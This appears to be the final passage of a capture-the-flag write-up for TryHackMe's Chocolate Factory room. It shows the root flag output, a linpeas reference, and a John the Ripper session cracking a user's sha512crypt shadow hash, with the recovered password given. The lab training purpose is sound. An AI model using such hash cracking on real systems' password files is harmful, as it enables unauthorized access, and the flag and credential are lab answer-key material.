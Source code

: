 ```bash
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
 \____|_| |_|\___/ \___\___/|_|\__,_|\__\___|
                                             
 _____          _                    
|  ___|_ _  ___| |_ ___  _ __ _   _  
| |_ / _` |/ __| __/ _ \| '__| | | | 
|  _| (_| | (__| || (_) | |  | |_| | 
|_|  \__,_|\___|\__\___/|_|   \__, | 
                              |___/  

flag{cec59161d338fef787fcb4e296b42124}
```

2. We get to to the root directory and find that the there is a file `root.py`. We run it and it asks for a key. We know the key. YEs, we do. And that gives us the flag for root.

## EXTRA TREAT 

1. Find out more with the linpeas scans that can be obtained [here](ssh/tmp/linpeas.out).

2. You remember the file that we obtained from the FTP. It gave us a shadow file back then. Let's have a go at it. We find that it is indeed the same password as we found for the `validate.php` file.
```bash
└─$ cat test.txt   
cn7824
                                                                                                        
┌──(kali㉿kali)-[~/…/Try Hack Me/Chocolate Factory/ssh/opt]
└─$ john hash --wordlist=test.txt                        
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 8 needed for performance.
cn7824           (charlie)     
1g 0:00:00:00 DONE (2024-05-22 18:40) 100.0g/s 100.0p/s 100.0c/s 100.0C/s cn7824
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
3. See you in the next one.
